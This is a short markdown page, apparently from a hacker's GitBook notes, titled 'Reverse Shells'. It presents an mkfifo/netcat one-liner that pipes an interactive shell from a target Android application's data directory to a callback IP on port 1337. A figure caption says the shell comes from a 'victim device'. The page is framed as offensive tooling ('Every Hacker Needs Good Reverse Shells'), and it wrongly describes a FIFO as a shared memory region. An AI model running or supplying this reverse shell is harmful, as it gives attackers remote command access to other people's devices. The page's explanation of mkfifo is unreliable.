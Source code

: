 ```yaml
---
description: 06/17/2024
cover: https://y.yarn.co/3fe0745c-8406-4773-ab65-c27b3b1190ad_text.gif
coverY: -14
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 📵 Reverse Shells

## Every Hacker Needs Good Reverse Shells to Complete the Mission...

### Mkfifo

A solid reverse shell and somewhat mandatory one to make living-off-the-land (LOL) easier, is an `mkfifo` reverse shell which is essentially a shared memory region for one or more applications or connections simultaneously.&#x20;

`mkfifo` stands for make first-in-first-out.

**PoC:**

```
"rm /data/data/com.target.application/f;/system/bin/toybox mkfifo /data/data/com.target.application/f;cat /data/data/com.target.application/f|/system/bin/sh -i 2>&1|/system/bin/toybox nc <callback_ip_here> 1337 >/data/data/com.target.application/f"
```

### Result

<figure><img src="../../.gitbook/assets/image (208).png" alt=""><figcaption><p>Getting a callback from the victim device</p></figcaption></figure>
